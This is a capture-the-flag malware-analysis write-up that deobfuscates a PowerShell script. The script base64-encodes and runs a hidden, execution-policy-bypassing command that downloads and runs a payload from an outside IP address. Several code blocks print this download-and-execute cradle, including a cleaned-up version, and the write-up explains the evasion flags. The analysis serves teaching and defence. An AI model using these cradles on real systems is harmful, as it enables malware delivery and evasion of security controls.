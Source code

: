 ```yaml
---
title: Powershell Enigma
time: 2024-09-17
categories: [malware analysis]
tags: [easy, malware, ps1]
image: /assets/posts/chall_category/malware-analysis.png
---
```


## Description:

A suspicious PowerShell script was found on a compromised system. Your task is to analyze the script, determine its functionality, and answer questions about its behavior.

- Category: Malware Analysis
- **No Flag** (Question and Answer basis)
- Password for challenge file: `infected`

<button onclick="downloadFile()">Download File</button>

<script>
function downloadFile() {
    const link = document.createElement('a');
    link.href = 'https://github.com/0x251e/challenges/raw/main/union-depository/malware-analysis/powershell-enigma/sus.zip';
    link.download = 'sus.zip';
    link.click();
}
</script>


## Questions:

> 1. What is the main purpose of this script?
> 2. What command is used to execute the final payload?
> 3. What is the URL from which additional code is downloaded?
> 4. How does the script attempt to evade detection? List at least two methods.
> 5. What PowerShell flags are used when executing the encoded command, and what do they do?
> 6. Rewrite the script in a de-obfuscated form.

## Solutions:

To analyze we replace a new line after a semicolon `;`, as in powershell is a statement separator. 

```powershell
$x=''
$y='IEX'
$z='powershell.exe -w h -ep b -e '

$a=[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('$c="http://73.58.34.118/OjKUiD2IFH.exe"
$w=New-Object Net.WebClient
$d=$w.DownloadString($c)
IEX $d'))

$b=$y+" "+$z+$a
$x=$b|IEX
```

Now we could break down each parts individually
```powershell
$x=''                                   # initialized empty string
$y='IEX'                                # set to Invoke-Expression
$z='powershell.exe -w h -ep b -e '      # call powershell with options 

$a=[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('$c="http://73.58.34.118/OjKUiD2IFH.exe"                       # convert base64 string to unicode byte 
$w=New-Object Net.WebClient             # initialized to download 
$d=$w.DownloadString($c)                # download from $c which is the payload
IEX $d'))                               # Invoke-Expression of the download

$b=$y+" "+$z+$a                         # Putting the pieces together into variable b
$x=$b|IEX                               # Run constructed command of b then passed to Invoke-Expression
```

Hold your horses before start answering those questions, I yet explain the options parameter invoked
- `-w h`: Shortform for `-WindowStyle Hidden`
- `-ep b`: Shortform for `-ExecutionPolicy Bypass` 
- `-e`: Shortform for `-EncodedCommand`

Back to the questions

###### 1. What is the main purpose of this script?

Based on our analysis, the main purpose of this script is to download a dropper malware and then execute it from the IP address of 73.58.34.118 and the dropper malware is OjKUiD2IFH.exe

###### 2. What command is used to execute the final payload?

To execute the dropper malware, it used `Invoke-Expression` as `IEX`

###### 3. What is the URL from which additional code is downloaded?

The URL is http://73.58.34.118/OjKUiD2IFH.exe

###### 4. How does the script attempt to evade detection? List at least two methods.

The script can evade detection by base64 encoded string and having the powershell to execute with bypass execution policy

###### 5. What PowerShell flags are used when executing the encoded command, and what do they do?

`-w h`: Shortform for `-WindowStyle Hidden`
`-ep b`: Shortform for `-ExecutionPolicy Bypass` 
`-e`: Shortform for `-EncodedCommand`

###### 6. Rewrite the script in a de-obfuscated form.

```powershell
$url="http://73.58.34.118/OjKUiD2IFH.exe"
$client= New-Object Net.WebClient
$dropper= $client.DownloadString($url)
Invoke-Expression $dropper 
```

References:
- [https://ss64.com/ps/powershell.html](https://ss64.com/ps/powershell.html)
- [https://github.com/ab14jain/PowerShell](https://github.com/ab14jain/PowerShell)

